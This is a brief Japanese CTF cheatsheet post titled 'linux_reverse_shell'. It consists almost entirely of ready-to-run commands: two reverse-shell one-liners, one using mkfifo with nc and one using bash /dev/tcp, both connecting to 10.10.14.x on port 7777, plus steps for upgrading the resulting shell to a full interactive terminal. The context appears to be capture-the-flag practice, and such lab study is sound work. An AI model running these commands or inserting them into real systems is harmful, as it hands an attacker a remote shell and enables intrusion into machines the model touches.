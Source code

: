 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
tags: CTF Common cheatsheet linux "reverse shell"
---
```

## リバースシェル
コマンド1
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7777 >/tmp/f
```
コマンド2
```sh
bash -c "bash -i >& /dev/tcp/10.10.14.14/7777 0>&1"
```
## シェルのアップグレード
```sh
script /dev/null -c bash
```

## シェルをさらにアップグレード
```sh
(Ctrl + z)
stty raw -echo ; fg
```
